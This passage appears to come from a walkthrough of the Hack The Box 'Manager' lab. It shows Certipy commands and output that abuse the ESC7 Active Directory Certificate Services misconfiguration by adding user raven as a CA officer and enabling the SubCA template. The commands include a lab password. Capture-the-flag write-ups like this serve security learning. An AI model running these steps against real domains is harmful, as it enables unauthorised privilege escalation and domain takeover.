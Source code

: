 ```bash
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```

The result says that the user `raven` has dangerous permission `ESC7`.

Based on `ESC7 - Attack2` method explained in the reference above, let's try abusing the permission.
First, I need to add `raven` itself to the CA manager permission group.

```bash
┌──(kali㉿kali)-[~/htb/Certipy]
└─$ certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

Then, let's check `SubCA` template, and activate it if it's disabled.

```bash
┌──(kali㉿kali)-[~/htb/Certipy]
└─$ certipy ca -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] No action specified
                                                                           
┌──(kali㉿kali)-[~/htb/Certipy]
└─$ certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```

Then, check if the template is successfully added.

```bash
┌──(kali㉿kali)-[~/htb/Certipy]
└─$ certipy ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -list-templates
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'manager-dc01-ca':
    SubCA
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    Administrator
```
